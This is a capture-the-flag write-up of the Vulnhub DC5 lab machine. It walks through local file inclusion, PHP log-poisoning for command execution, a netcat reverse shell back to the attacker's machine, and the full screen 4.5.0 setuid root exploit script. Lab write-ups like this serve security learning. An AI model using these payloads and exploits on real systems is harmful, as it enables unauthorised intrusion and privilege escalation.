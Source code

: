 ```yaml
---
layout: post
title: Vulnhub - DC5 writeup
date: 2019-07-09 11:13
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-6,315/">DC5</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap

![](images/dc5/nmap.png)

A website is running on port 80 and rpcbind is running on port 111.

Let's start with the website.

***

## HTTP

![](images/dc5/website.png)

There was nothing unusual on the website. Nothing in the comments.

Let's run `gobuster` to see if we find anything:

![](images/dc5/gobuster.png)

Well gobuster also didn't find anything interesting.

Now the only thing I can think of is `form on Contact us` page. We can try to submit it and see if we find anything in it.

I submitted the random data and was redirected to a new page called `thankyou.php` with multiple query in the URL.

![](images/dc5/URL.png)

We know these kind of parameters are always(not always ;) prone to LFI/RFI.


I tried to include files with those parameters but none of them were prone to file inclusion but I got something when I used a different parameter named `file`(__pure guessing!!__)

![](images/dc5/lfi.png)

We can read the `/etc/passwd` file easily. We have the LFI means we can easily exploit this using log poisoning.

 Basically we can send a requests with the following parameter:

```php
?file=<?php system($_GET["cmd"]) ?>
```
And then using the `/var/log/nginx/error.log` file we can run commands like

```
?file=/var/log/nginx/error.log&cmd=ls
```

![](images/dc5/cmd.png)

***

If you want to understand how log poisoning works then you can just google something like `LFI to RCE using log poisoning` or you can read:

* [local-file-inclusion-code-execution](https://resources.infosecinstitute.com/local-file-inclusion-code-execution/)
* [from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

***

Since we have RCE we can just get the reverse shell on the machine.

In the `cmd` parameter you can send the following data
```
&cmd=nc -e /bin/sh IP-of-you-machine PORT
```

![](images/dc5/reverse.png)

And we'll have a shell on our listener. Spawn the TTY shell and get to work :)

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](images/dc5/listener.png)

***

I was in the machine and following the ritual I just downloaded the enumeration script from my system and ran it.

__Note__: Download the script in `/tmp` folder since we are not even a user(dc).

I got some suspicious looking SUIDs

![](images/dc5/suid.png)

I googled them one by one and got a hit on `screen-4.5.0`. There was an [exploit](https://www.exploit-db.com/exploits/41154) for `screen 4.5.0`.

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Running that exploit as is gave an error:

![](images/dc5/error.png)

So I manually separated the code into 3 different files.

* `libhax.c`

   ![](images/dc5/libhax.png)

compile using:

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

* `rootshell.c`

   ![](images/dc5/rootshell.png)

compile using:
```bash
gcc -o rootshell rootshell.c
```

* `exp.sh`

   ![](images/dc5/exp.png)

__Note__: Exploit still do the same thing but now instead of making files using echo and EOF it will just used the existing files that I made.

Now we can just wget all those file from our system to machine and run the exploit.

![](images/dc5/wget.png)

I tried to run the `exp.sh` file but for some reason I was getting some error.

![](images/dc5/error-2.png)

So I did everything that was done in exploit manually.

![](images/dc5/root.png)

And then got the flag

![](images/dc5/flag.png)


***
__Start time__: `Tue Jul  9 11:23:00 IST 2019`

__Completion time__: `Tue Jul  9 13:13:01 IST 2019`

***

I wasted quite sometime in figuring out how to run that exploit but all in all it was a good box.

***

Great machine by [DCAU](https://twitter.com/DCAU7), as always :)
